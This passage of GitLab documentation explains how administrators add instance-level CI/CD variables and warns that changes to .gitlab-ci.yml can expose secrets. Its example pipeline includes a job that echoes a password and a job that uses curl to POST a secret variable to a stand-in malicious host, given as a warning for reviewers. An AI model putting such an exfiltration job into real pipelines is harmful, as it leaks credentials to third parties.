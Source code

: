 ### For an instance

DETAILS:
**Tier:** Free, Premium, Ultimate
**Offering:** Self-managed, GitLab Dedicated

You can make a CI/CD variable available to all projects and groups in a GitLab instance.

Prerequisites:

- You must have administrator access to the instance.

To add an instance variable:

1. On the left sidebar, at the bottom, select **Admin**.
1. Select **Settings > CI/CD**.
1. Expand **Variables**.
1. Select **Add variable** and fill in the details:
   - **Key**: Must be one line, with no spaces, using only letters, numbers, or `_`.
   - **Value**: The value is limited to 10,000 characters, but also bounded by any limits in the
     runner's operating system.
   - **Type**: `Variable` (default) or [`File`](#use-file-type-cicd-variables).
   - **Protect variable** Optional. If selected, the variable is only available
     in pipelines that run on protected branches or tags.
   - **Visibility**:
      - **Visible**: The variable's **Value** is visible in job logs and shown in variables settings.
      - **Masked**: The variable's **Value** is masked in job logs, but it is still shown in variables settings.
        The variable fails to save if the value does not meet the [masking requirements](#mask-a-cicd-variable).

## CI/CD variable security

Code pushed to the `.gitlab-ci.yml` file could compromise your variables. Variables could
be accidentally exposed in a job log, or maliciously sent to a third party server.

Review all merge requests that introduce changes to the `.gitlab-ci.yml` file before you:

- [Run a pipeline in the parent project for a merge request submitted from a forked project](../pipelines/merge_request_pipelines.md#run-pipelines-in-the-parent-project).
- Merge the changes.

Review the `.gitlab-ci.yml` file of imported projects before you add files or run pipelines against them.

The following example shows malicious code in a `.gitlab-ci.yml` file:

```yaml
accidental-leak-job:
  script:                                         # Password exposed accidentally
    - echo "This script logs into the DB with $USER $PASSWORD"
    - db-login $USER $PASSWORD

malicious-job:
  script:                                         # Secret exposed maliciously
    - curl --request POST --data "secret_variable=$SECRET_VARIABLE" "https://maliciouswebsite.abcd/"
```
